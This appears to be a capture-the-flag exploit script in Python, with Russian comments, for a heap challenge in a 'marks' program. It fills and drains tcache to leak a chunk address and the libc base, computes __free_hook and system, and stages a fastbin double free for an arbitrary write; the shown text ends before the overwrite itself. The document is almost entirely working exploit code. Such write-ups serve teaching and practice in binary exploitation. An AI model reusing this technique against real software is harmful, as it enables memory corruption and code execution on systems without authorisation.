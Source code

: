 ```python=
def edit_mark(index, mark, size, comment):
        cmd(2)
        for i in [index, mark, size, comment]:
                p.recvuntil(': ')
                if (type(i) is int):
                        i = str(i)
                p.sendline(i)


for i in range(9):
        add_mark(1, 256, 'a'*31)
for i in range(9):
        delete_mark(i) # заполняем tcache, последний чанк попадёт в unsorted bin

chunk_addr_lodword = view_mark(1, 'Add').split(b' ')[1].split(b'Comment')[0]
chunk_addr_lodword = int(chunk_addr_lodword.decode()) # сливаем последние четыре байта адреса чанка 


for i in range(9):
        add_mark(1, 256, 'a'*31) # опустошаем tcache



leak = u64(view_mark(8,b'\x7f')[-6:]+b'\x00'*2) # сливаем адрес libc
libc = leak - 0x1eabe0
free_hook = elf.symbols['__free_hook']+libc
system = elf.symbols['system']+libc
print ('Libc:', hex(libc))
print ('Free hook:', hex(free_hook))

#for i in range(10):
#       add_mark(50, 40, 'e'*24)
#for i in range(7):
#       delete_mark(18+i)

#delete_mark(27)
#delete_mark(25)
#delete_mark(27)

for i in range(7):
        edit_mark(9+i, 50, 40, 'e'*24) # выделяем чанки, чтобы потом опустошив их заполнить tcache
for i in range(3):
        add_mark(50, 40, 'c'*24)
for i in range(7):
        delete_mark(9+i) # заполняем tcache

delete_mark(19) # этот чанк попадёт в fastbin 
delete_mark(18) # этот чанк опустошаем, чтобы libc не выдала ошибку
delete_mark(19) # теперь один и тот же чанк опустошён дважды, значит мы можем писать по произвольному адресу

# но при этом дважды опустошается ещё и чанк, который хранит оценку и
# комментарий к ней, поэтому ранее мы и слили последние 4 байта адреса чанка 
# , чтобы у нас был валидный адрес

for i in range(7):
        add_mark(50, 40, 'c'*24) 
        
''' ^^^ опустошаем tcache, после чего libc переместит чанки из 
fastbin в tcache из-за чего мы сможем избежать неудобных проверок'''

```